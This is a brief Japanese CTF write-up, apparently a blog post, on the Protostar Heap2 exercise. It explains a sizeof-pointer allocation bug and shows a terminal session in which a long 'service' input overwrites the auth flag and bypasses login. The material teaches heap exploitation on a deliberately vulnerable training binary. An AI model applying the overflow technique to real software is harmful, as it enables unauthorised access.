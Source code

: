 ```yaml
---
layout: post
alias: "/blog/2016/01/23/exploit-exercises-protostar-heap2/"
date: 2016-01-23T14:36:33+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap" ]
---
```


# Exploit Exercises Protostar Heap2

0,1と比較して簡単。

## [Protostar Heap2](https://exploit-exercises.com/protostar/heap2/)

``` c
struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
```

に対して、

``` c
auth = malloc(sizeof(auth));
```

としてしまっている。つまり`sizeof(struct auth)`でなく`sizeof(struct auth *)`になっている。

`auth->auth`を真にするだけでよいので簡単。

``` sh
$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x8973008, service = (nil) ]
login
please enter your password
[ auth = 0x8973008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x8973008, service = 0x8973018 ]
login
you have logged in already!
[ auth = 0x8973008, service = 0x8973018 ]
```
